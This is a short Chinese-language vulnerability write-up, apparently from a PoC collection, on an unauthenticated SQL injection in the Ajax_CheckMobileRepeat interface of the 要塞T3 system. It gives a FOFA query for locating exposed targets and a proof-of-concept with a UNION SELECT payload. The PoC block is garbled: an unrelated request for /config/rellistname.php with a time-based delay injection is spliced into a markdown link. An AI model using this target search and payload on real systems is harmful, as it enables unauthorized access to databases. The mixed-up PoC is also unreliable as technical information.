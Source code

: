 # 要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞

要塞T3系统接口Ajax_CheckMobileRepeat存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句。

## fofa

```javascript
body="/mlogin.htm?url=" || body="T3/MAIN/Login.aspx"
```

## poc

```javascript
[GET /config/rellistname.php?DontCheckLogin=1&objType=1&reportID=1+wAiTFOR+DeLAy'0:0:4'--+- HTTP/1.1
Host: 
Cookie: PHPSESSID=bgsesstimeout-;](http://ip/T3/Ajax/Ajax_CheckMobileRepeat.ashx?action=checkmobilerepeat&mobileNum=1%27%20UNION%20ALL%20SELECT%20NULL%2C%28SELECT%20%40%40version%29--%20aEdt)
```
